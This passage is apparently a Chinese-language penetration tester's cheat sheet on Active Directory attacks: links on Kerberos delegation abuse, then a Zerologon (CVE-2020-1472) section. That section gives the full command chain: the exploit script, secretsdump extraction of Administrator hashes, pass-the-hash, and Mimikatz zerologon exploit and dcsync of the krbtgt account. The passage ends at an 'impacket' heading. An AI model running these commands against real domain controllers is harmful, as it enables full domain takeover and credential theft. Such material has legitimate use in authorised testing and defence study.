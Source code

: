 ##### Kerberos委派

- [Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- [s4u2pwnage](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
- [Attacking Kerberos Delegation](https://xz.aliyun.com/t/2931)
- [用打印服务获取域控](https://adsecurity.org/?p=4056)
- [Computer Takeover](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
- [Combining NTLM Relaying and Kerberos delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
- [CVE-2019-1040](https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/)

##### 地址解析协议

实在搞不定再搞ARP

##### zerologon漏洞



~~~ABAP
python3 cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <ip>

secretsdump.py <DOMAIN>/<MACHINE_BIOS_NAME>\$@<IP> -no-pass -just-dc-user "Administrator" 

secretsdump.py -hashes :<HASH_admin> <DOMAIN>/Administrator@<IP>

python3 restorepassword.py -target-ip <IP> <DOMAIN>/<MACHINE_BIOS_NAME>@<MACHINE_BIOS_NAME> -hexpass <HEXPASS>
~~~

[CVE-2020-1472的分析与复现 (0range-x.github.io)](https://0range-x.github.io/2021/11/22/CVE-2020-1472/)

**1、利用Mimikatz **check

```
lsadump::zerologon /target:dc1.exploit.local /account:dc1$
```

**exploit**

```
lsadump::zerologon /target:dc1.exploit.local /account:dc1$ /exploit
```

**dcsync**

```
lsadump::dcsync /dc:dc1.exploit.local /authuser:dc1$ /authdomain:exploit.local /authpassword:"" /domain:exploit.local /authntlm /user:krbtgt
```

**restore**

```
lsadump::postzerologon /target:conttosson.locl /account:dc$ 
```

**2、利用impacket：**
